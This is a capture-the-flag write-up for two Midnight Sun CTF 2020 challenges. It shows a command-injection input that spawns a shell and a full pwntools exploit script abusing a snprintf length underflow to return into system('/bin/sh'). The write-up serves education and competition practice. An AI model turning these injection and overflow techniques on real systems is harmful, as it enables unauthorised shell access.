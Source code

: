 # MidnightsunCTF2020
url: [https://ctf.midnightsunctf.se/](https://ctf.midnightsunctf.se/)
country: Sweden
team: TaQini@Nepnep 

## Admpanel

input `id && /bin/sh` to getshell

``` shell
$ nc admpanel-01.play.midnightsunctf.se 31337
---=-=-=-=-=-=-=-=-=---
-      Admin panel    -
-
- [0] - Help
- [1] - Authenticate
- [2] - Execute command
- [3] - Exit
---=-=-=-=-=-=-=-=-=---
 > 1
  Input username: admin
  Input password: password
 > 2
  Command to execute: id && /bin/sh
uid=999(ctf) gid=999(ctf) groups=999(ctf)
ls -al
total 32
drwxr-xr-x 1 root ctf   4096 Apr  3 05:41 .
drwxr-xr-x 1 root root  4096 Apr  3 05:41 ..
-rwxr-x--- 1 root ctf  14408 Apr  3 13:09 chall
-r--r----- 1 root ctf     41 Apr  2 21:20 flag
-rwxr-x--- 1 root ctf     71 Apr  2 21:20 redir.sh
cat flag
midnight{n3v3r_4sk_b0bb_to_d0_S0m3TH4Ng}
```


## Admpanel2

In func `sub_40121A`, `maxlen` is an unsigned integer, if the return value of `snprintf` is nearly `0x100`, after 3 times `maxlen -= n` executed , maxlen will be a great integer. Buffer overflow will happen after input a long string.

```c
  maxlen = 0x100LL;
  n = snprintf(&buf, 0x100uLL, "LOG: [OPERATION: %s] ", a1, a2);
  if ( n < 0 )
    exit(1);
  ptr += n;
  maxlen -= n;         // first 
  if ( authed )        // authed=1 after [1]auth 
  {
    n = snprintf(ptr, maxlen, "[USERNAME: %s] ", var_138);
    if ( n < 0 )
      exit(1);
    ptr += n;
    maxlen -= n;      // second 
  }
  if ( *var_rsp )
  {
    n = snprintf(ptr, maxlen, "%s", var_rsp);
    if ( n < 0 )
      exit(1);
    ptr += n;
    maxlen -= n;      // thrid, bof here
  }
  fprintf(stderr, "%s\n", &buf);
```

> bof is enable while `authed=1` 

This elf64 program use `fgets` as input function, so only one gadget can be used beacuse of bad code `\x00` in addr of gadget. 

>  ROP is not a good idea.

But ret2text is still available, only one gadget is enough: 

```nasm
.text:0000000000401598  mov     rdi, rax        ; command
.text:000000000040159B  call    _system
```

Before ret2text ,we should set `rax` point to `"/bin/sh"`. This work can be done by selected [1]auth one more time and set the begining of username to `"/bin/sh;"`.

Exp:

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './admpanel2'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

# info
# gadget
system = 0x000000000401598 

# elf, libc
satck = 0x4040E0+0x100
# rop1
offset = 282
payload = ''
payload += 'A'*offset
payload += p64(system)
payload = payload.ljust(1000,'\0')

# auth flag = 1
sla(' > ','1')
sla('  Input username: ','admin'+'a'*1000)
sla('  Input password: ','password233')

# rax <- /bin/sh;
sla(' > ','1')
sla('  Input username: ','/bin/sh;'+'b'*1000)

sla(' > ','2')
# debug('b *0x4015A1\nb *0x040121A')
sla('  Command to execute: ',payload)

p.interactive()
```

> focus on the layout of regs is helpful while pwnning ---

